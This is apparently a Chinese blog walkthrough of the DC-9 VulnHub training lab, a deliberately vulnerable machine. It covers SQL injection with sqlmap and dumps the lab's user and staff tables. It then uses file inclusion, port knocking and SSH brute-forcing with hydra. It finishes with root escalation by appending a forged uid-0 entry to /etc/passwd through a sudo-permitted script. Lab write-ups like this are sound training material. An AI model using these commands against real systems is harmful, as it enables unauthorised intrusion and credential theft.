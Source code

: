 ```yaml
---
title: DC-9复现
permalink: /archives/5012/
createTime: 2022-12-01 16:50:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-9复现

# 描述

> DC-9是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

# 信息收集

确定目标的ip以及开启的端口

![image-20221201165354852](https://img.crzliang.cn/img/image-20221201165354852.png)

发现有一个完整的表单，那就直接sqlmap爆破数据库

![image-20221201165637107](https://img.crzliang.cn/img/image-20221201165637107.png)

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" --dbs
```

爆出三个库

![image-20221201165842274](https://img.crzliang.cn/img/image-20221201165842274.png)

爆破表

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users --tables
```

![image-20221201170044666](https://img.crzliang.cn/img/image-20221201170044666.png)

爆破列

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users -T UserDetails --dump
```

```mysql
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

同理爆破另一个库，其中的一个库的**Users**表爆出了admin的密码

![image-20221201170903369](https://img.crzliang.cn/img/image-20221201170903369.png)

**StaffDetails**表的内容

```mysql
Database: Staff
Table: StaffDetails
[17 entries]
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
```

# 登录后台

![image-20221201170938946](https://img.crzliang.cn/img/image-20221201170938946.png)

脚标处有一句`File does not exist `，判断是不是存在本地文件包含漏洞

验证存在

![image-20221201171921652](https://img.crzliang.cn/img/image-20221201171921652.png)

然后要利用到端口敲门：

原理简单分析：
端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
　　
简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

![image-20221201172310863](https://img.crzliang.cn/img/image-20221201172310863.png)

```bash
nmap -p 7469 192.168.71.131
nmap -p 8475 192.168.71.131
nmap -p 9842 192.168.71.131
```

执行完以上命令后再查看22端口的ssh服务，就看到是已经打开了

```bash
nmap -p 22 192.168.71.131
```

![image-20221201172545368](https://img.crzliang.cn/img/image-20221201172545368.png)

利用前面信息收集到的员工账号密码做一个字典，然后进行爆破

# ssh登录

```bash
hydra -L dc9_users.txt -P dc9_pass.txt 192.168.71.131 ssh
```

![image-20221201173634705](https://img.crzliang.cn/img/image-20221201173634705.png)

爆破出三个账号密码，随便一个账号登录上去，发现我们现在只是爆破出了部分账户而已

![image-20221201174103178](https://img.crzliang.cn/img/image-20221201174103178.png)

利用su命令切换我们爆破出的用户，发现在janitor的目录下有一个文件夹里记录了其他用户的密码

![image-20221201174344319](https://img.crzliang.cn/img/image-20221201174344319.png)

那我们直接加到我们的密码本里，再爆破一次，果然爆出了一个新的

![image-20221201174707763](https://img.crzliang.cn/img/image-20221201174707763.png)

登录到fredf，发现可以执行`sudo -l`可以看到该账号可以运行root权限的test文件，而且不需要密码

![image-20221201174840644](https://img.crzliang.cn/img/image-20221201174840644.png)

然后找到了这个文件的源码

![image-20221201175410975](https://img.crzliang.cn/img/image-20221201175410975.png)

经过查看发现这个py文件的大致内容就是将参数1的内容写入参数2中，接下来尝试进行提权

# 提权

```bash
openssl passwd -1 -salt admin 111111
echo 'admin:$1$admin$2WRLhTGcIMgZ7OhwCpREK1:0:0::/root:/bin/bash' >> /tmp/aaa
sudo /opt/devstuff/dist/test/test /tmp/aaa /etc/passwd
su admin
cd /root
cat theflag.txt 
```

![image-20221201180059726](https://img.crzliang.cn/img/image-20221201180059726.png)

- [参考博客]([(19条消息) vulnhub靶机DC-9渗透测试_Long_gone的博客-CSDN博客](https://blog.csdn.net/Long_gone/article/details/104049869?ops_request_misc=%7B%22request%5Fid%22%3A%22166988492316782412557232%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=166988492316782412557232&biz_id=0&spm=1018.2226.3001.4187))